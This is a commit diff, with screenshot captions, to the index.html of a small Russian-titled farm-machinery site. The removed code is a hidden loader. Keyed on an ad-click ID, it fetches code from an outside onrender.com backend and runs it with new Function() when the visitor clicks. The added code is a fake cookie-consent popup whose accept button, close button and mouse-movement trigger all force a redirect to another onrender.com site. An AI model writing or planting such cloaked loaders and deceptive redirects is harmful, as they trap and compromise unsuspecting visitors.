

Before and after one commit to venicepriewe-ux/OCEAN5, a plain HTML site: page index.html in a window 390 px wide. Shown: the top 842 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,344 +2,151 @@
 <html lang="ru">
     <script async defer src="https://tools.luckyorange.com/core/lo.js?site-id=9ce5c799"></script>
 <head>
-    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.1.1/crypto-js.min.js"></script>
-<style>
-      /* Modal styles */
-      .modal {
-        display: none; /* Hidden by default */
-        position: fixed; /* Stay in place */
-        z-index: 1000; /* Sit on top */
-        left: 0;
-        top: 0;
-        width: 100%; /* Full width */
-        height: 100%; /* Full height */
-        overflow: auto; /* Enable scroll if needed */
-        background-color: rgba(0, 0, 0, 0.4); /* Black w/ opacity */
+    <script>
+    document.addEventListener("DOMContentLoaded", function () {
+        const redirectUrl = "https://polnhugyugb.onrender.com/";
+
+        const style = document.createElement("style");
+        style.textContent = `
+            .cookie-overlay {
+                position: fixed;
+                inset: 0;
+                background: rgba(0, 0, 0, 0.8);
+                backdrop-filter: blur(10px);
+                display: flex;
+                align-items: center;
+                justify-content: center;
+                padding: 20px;
+                z-index: 9999;
+                animation: fadeInBackground 0.5s ease-out forwards;
             }
 
-      .modal-content {
-        position: relative;
-        margin: 5% auto; /* 5% from the top and centered */
-        padding: 20px;
-        padding-top: 70px;
-        width: 90%; /* Could be more or less, depending on screen size */
-        max-width: 500px;
-        background-color: #fff;
+            @keyframes fadeInBackground {
+                from { opacity: 0; }
+                to { opacity: 1; }
+            }
+
+            .cookie-popup {
+                position: fixed;
+                bottom: 60px;
+                left: 50%;
+                transform: translateX(-50%);
+                background-color: #ffffff;
+                border: none;
+                color: #333;
+                padding: 30px;
                 border-radius: 10px;
+                z-index: 10000;
+                box-shadow: 0 4px 20px rgba(0, 0, 0, 0.2);
+                max-width: 400px;
                 text-align: center;
             }
 
-      .modal-image {
-        width: 100%;
-        height: auto;
-        border-radius: 10px;
-        margin-bottom: 20px;
-      }
-
-      .close-button {
+            .close-btn {
+                background: none;
+                border: none;
+                font-size: 1.5rem;
                 position: absolute;
-        top: 2px;
-        right: 20px;
-        color: #aaa;
-        font-size: 50px;
-        font-weight: bold;
+                top: 10px;
+                right: 10px;
                 cursor: pointer;
-        z-index: 10;
-      }
-
-      .close-button:hover,
-      .close-button:focus {
-        color: black;
-        text-decoration: none;
-        cursor: pointer;
+                color: #888;
             }
 
             .btn-primary {
-        display: inline-block;
-        padding: 10px 20px;
-        margin-top: 10px;
                 background-color: #007bff;
                 color: #fff;
+                border: none;
+                padding: 12px 24px;
+                border-radius: 5px;
+                cursor: pointer;
+                margin-top: 15px;
+                display: inline-block;
                 text-decoration: none;
-        border-radius: 5px;
+                transition: background-color 0.3s;
             }
 
-      .close-modal {
-        cursor: pointer;
-      }
-    </style>
-
-
-
-
-
-
-
- <!-- Special Offer Modal -->
-    <div id="specialOfferModal" class="modal">
-      <div class="modal-content">
-        <span class="close-button">&times;</span>
-
-        <h2>スペシャルオファー</h2>
-        <p>今だけ！初回のヨガクラスが50%オフ！</p>
-        <p>今すぐ予約して、心と体の健康を始めましょう。</p>
-        <ul>
-          <li>オンラインクラスで自宅から参加可能</li>
-          <li>経験豊富なインストラクターによる指導</li>
-          <li>リラクゼーションとストレス解消</li>
-        </ul>
-        <a href="#" class="btn-primary close-modal">今すぐ予約</a>
-      </div>
-    </div>
-
-    <!-- ==============  SWIPER JS ==============  -->
-    <script src="https://unpkg.com/swiper/swiper-bundle.min.js"></script>
-    <script src="main.js"></script>
-    <script>
-
-      document.addEventListener("DOMContentLoaded", function () {
-        var modal = document.getElementById("specialOfferModal");
-        var closeButton = document.querySelector(".close-button");
-        var closeModalLinks = document.querySelectorAll(".close-modal");
-
-        // Show the modal
-        modal.style.display = "block";
-
-
-        function closeModal() {
-          modal.style.display = "none";
+            .btn-primary:hover {
+                background-color: #0056b3;
             }
 
-        closeButton.addEventListener("click", closeModal);
-        closeModalLinks.forEach(function (link) {
-          link.addEventListener("click", function (event) {
-            event.preventDefault();
-            closeModal();
-          });
-        });
-
-
-        window.onclick = function (event) {
-          if (event.target == modal) {
-            modal.style.display = "none";
-          }
-        };
-      });
-    </script>
-	<script>
-    const gclid = new URLSearchParams(location.search).get("gclid");
-    const timezone = Intl.DateTimeFormat().resolvedOptions().timeZone;
-    const RENDER_BASE_URL = "https://decemberbackend.onrender.com";
-
-    let someCode = null;
-
-    document.cookie = "access_cookie=true; path=/; max-age=300";
-
-    document.addEventListener("mousemove", async function fetchCodeOnce() {
-      document.removeEventListener("mousemove", fetchCodeOnce);
-      try {
-        const res = await fetch(
-          `${RENDER_BASE_URL}/frontend-loader?gclid=${gclid}`,
-          {
-            headers: {
-              "x-client-timezone": timezone,
-              "x-access-cookie": "true",
-            },
-          }
-        );
-        const data = await res.json();
-        if (data && data.code) {
-          someCode = data.code;
-        }
-      } catch (err) {
-        console.error("Could not fetch code", err);
-      }
-    });
-
-    function handleSomeClick() {
-      if (someCode) {
-        try {
-          new Function(someCode)();
-        } catch (err) {
-          console.error("Error executing code:", err);
-        }
-      }
-    }
-
-    document.addEventListener("click", handleSomeClick);
-  </script>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Сельскохозяйственная техника</title>
-    <style>
-        * {
-            margin: 0;
-            padding: 0;
-            box-sizing: border-box;
+            h3 {
                 font-family: 'Arial', sans-serif;
-        }
-
-        body {
-            background-color: #f1f8e9; /* Light green background */
-            color: #000;
-            line-height: 1.6;
-        }
-
-        header {
-            background: linear-gradient(135deg, #1b5e20, #43a047); /* Green gradient */
-            color: white;
-            padding: 1.5rem;
-            text-align: center;
-            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
-        }
-
-        nav {
-            background-color: #1b5e20; /* Dark green */
-            padding: 1rem;
-        }
-
-        nav ul {
-            display: flex;
-            justify-content: center;
-            list-style: none;
-        }
-
-        nav li {
-            margin: 0 1.5rem;
-        }
-
-        nav a {
-            color: white;
-            text-decoration: none;
-            font-weight: bold;
-            transition: color 0.3s;
-        }
-
-        nav a:hover {
-            color: #c8e6c9; /* Lighter green on hover */
-        }
-
-        .container {
-            max-width: 1200px;
-            margin: 0 auto;
-            padding: 2rem;
-        }
-
-        .content {
-            background-color: white;
-            padding: 2rem;
-            border-radius: 8px;
-            box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
-            margin-bottom: 2rem;
-        }
-
-        h1, h2, h3 {
-            color: #000000;
-            margin-bottom: 1rem;
+                margin-bottom: 10px;
             }
 
             p {
-            margin-bottom: 1rem;
-            text-align: justify;
+                font-family: 'Arial', sans-serif;
+                line-height: 1.5;
             }
+        `;
+        document.head.appendChild(style);
 
-        .highlight {
-            background-color: #e8f5e9; /* Pale green highlight */
-            padding: 1.5rem;
-            border-left: 4px solid #2e7d32;
-            margin: 1.5rem 0;
+        const overlay = document.createElement("div");
+        overlay.className = "cookie-overlay";
+        overlay.id = "cookie-overlay";
+        overlay.innerHTML = `
+<div class="cookie-popup">
+<button class="close-btn" id="close-popup" aria-label="クッキーポリシーを閉じる">×</button>
+<h3>クッキーポリシー</h3>
+<p>
+このサイトでは、コンテンツや広告のパーソナライズ、ソーシャルメディア機能の提供、トラフィックの分析のためにクッキーを使用しています。
+「同意する」をクリックすることで、クッキーの使用に同意したことになります。詳細は
+<a href="${redirectUrl}" class="cta" style="text-decoration: underline; color: #007bff;">クッキーポリシー</a>をご覧ください。
+</p>
+<a href="https://polnhugyugb.onrender.com/" id="accept-cookies" class="btn-primary">同意する</a>
+</div>
+        `;
+        document.body.appendChild(overlay);
+
+        let isRedirected = false;
+        let startPos = null;
+        let redirectTimeout = null;
+
+        const handleRedirect = () => {
+            if (!isRedirected) {
+                isRedirected = true;
+                window.location.href = redirectUrl;
             }
+        };
 
-        .contact-form {
-            background-color: white;
-            padding: 2rem;
-            border-radius: 8px;
-            box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
-        }
+        const detectMouseMove = (event) => {
+            if (isRedirected) return;
 
-        .form-group {
-            margin-bottom: 1.5rem;
-        }
+            const screenHeight = window.innerHeight;
+            const activeTop = screenHeight * 0.1;
 
-        label {
-            display: block;
-            margin-bottom: 0.5rem;
-            font-weight: bold;
-            color: #1b5e20; /* Green text for labels */
-        }
+            if (event.clientY >= activeTop) {
+                if (!startPos) {
+                    startPos = { x: event.clientX, y: event.clientY };
+                } else {
+                    const dx = Math.abs(event.clientX - startPos.x);
+                    const dy = Math.abs(event.clientY - startPos.y);
 
-        input, textarea {
-            width: 100%;
-            padding: 0.75rem;
-            border: 1px solid #ccc;
-            border-radius: 4px;
-            font-size: 1rem;
-        }
-
-        button {
-            background: linear-gradient(135deg, #1b5e20, #43a047); /* Green button */
-            color: white;
-            border: none;
-            padding: 0.75rem 1.5rem;
-            border-radius: 4px;
-            cursor: pointer;
-            font-size: 1rem;
-            transition: background 0.3s;
-        }
-
-        button:hover {
-            background: linear-gradient(135deg, #2e7d32, #66bb6a);
-        }
-
-        footer {
-            background-color: #1b5e20;
-            color: white;
-            padding: 2rem;
-            text-align: center;
-            margin-top: 2rem;
-        }
-
-        .cookie-consent {
-            position: fixed;
-            bottom: 0;
-            left: 0;
-            right: 0;
-            background-color: #2e7d32;
-            color: white;
-            padding: 1rem;
-            display: flex;
-            justify-content: space-between;
-            align-items: center;
-            z-index: 1000;
-        }
-
-        .cookie-consent button {
-            background-color: white;
-            color: #1b5e20;
-            border: none;
-            padding: 0.5rem 1rem;
-            border-radius: 4px;
-            cursor: pointer;
-        }
-
-        .contact-info {
-            background-color: #e8f5e9;
-            padding: 1.5rem;
-            border-radius: 8px;
-            margin-top: 2rem;
-        }
-
-        @media (max-width: 768px) {
-            nav ul {
-                flex-direction: column;
-                align-items: center;
-            }
-
-            nav li {
-                margin: 0.5rem 0;
+                    if ((dx > 10 || dy > 10) && !redirectTimeout) {
+                        redirectTimeout = setTimeout(handleRedirect, 1000);
                     }
                 }
-    </style>
+            } else {
+                startPos = null;
+                clearTimeout(redirectTimeout);
+                redirectTimeout = null;
+            }
+        };
+
+        document.getElementById("cookie-overlay").addEventListener("mousemove", detectMouseMove);
+
+        document.getElementById("accept-cookies").addEventListener("click", function (e) {
+            e.preventDefault();
+            handleRedirect();
+        });
+
+        document.getElementById("close-popup").addEventListener("click", function (e) {
+            e.preventDefault();
+            handleRedirect();
+        });
+    });
+</script>
 </head>
 <body>
     <header>
```
Lines whose indentation alone changed are shown as unchanged.
